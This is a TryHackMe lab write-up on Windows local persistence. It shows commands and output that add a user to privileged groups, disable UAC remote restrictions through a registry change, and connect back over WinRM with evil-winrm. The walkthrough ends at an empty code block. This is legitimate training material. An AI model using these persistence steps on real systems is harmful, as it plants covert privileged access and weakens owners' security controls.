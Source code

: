 # Room Information

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Banner%20-%20Windows%20Local%20Persistence.png)

Room link: https://tryhackme.com/room/windowslocalpersistence

**Please feel free to point out any errors that you may see in this writeup!**

This writeup was last updated: 07/22/2023

# Tampering With Privileged Accounts

## Assigning Group Memberships

1. Start this room's machine and our TryHackMe AttackBox
2. `cd \` from the compromised Windows machine to change to the their filesystem's root directory to ensure that we'll be executing the following commands from starting from there
```PowerShell
C:\Users\Administrator>cd \
```
3. `net localgroup “Backup Operators” <USER> /add` from the compromised Windows machine to add our target user (thmuser1) to the compromised system's **Backup Operators** group, which won't give our target user administrative privileges but it will allow them to read and write to files within its system regardless of the system's DACL configurations and any other set permissions that may prevent users from accessing those files
```PowerShell
C:\>net localgroup "Backup Operators" thmuser1 /add
The command completed successfully.
```
4. `net localgroup “Remote Management Users” <USER> /add` from the compromised Windows machine to add our target user (thmuser1) to the compromised system's **Remote Management Users** group in order to have our target user be able to connect back to the compromised machine using WinRM
```PowerShell
C:\>net localgroup "Remote Management Users" thmuser1 /add
The command completed successfully.
```
5. `reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v /EnableLUA` from the compromised Windows machine to check if Microsoft's UAC is active on our compromised machine and display the results onto our terminal, which ended up being the case (1 meaning that it's enabled) and therefore preventing us from running any administrative privileges when remotely connecting back to the compromised machine since it strips the user who's remotely connecting to the compromised system from any administrative privileges that they may have by disabling their access to the privileges of the groups that they're a part of that have full or certain administrator privileges, which in this case was the **Backup Operators** group
```PowerShell
C:\>reg query HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
    EnableLUA    REG_DWORD    0x1
```
6. `reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1` from the compromised Windows machine to enable the compromised system's LocalAccountTokenFilterPolicy registry policy, which allowed us to disable UAC's remote restrictions and have the **Backup Operators** group's privileges enabled for our compromised user when connecting remotely to the compromised system
```PowerShell
C:\>reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
The operation completed successfully.
```
7. `evil-winrm -i <TARGET IP> -u <USER> -p <PASSWORD>` from our Linux attack machine to remotely connect to the compromised machine as our target user (thmuser1) using WinRM
```Bash
```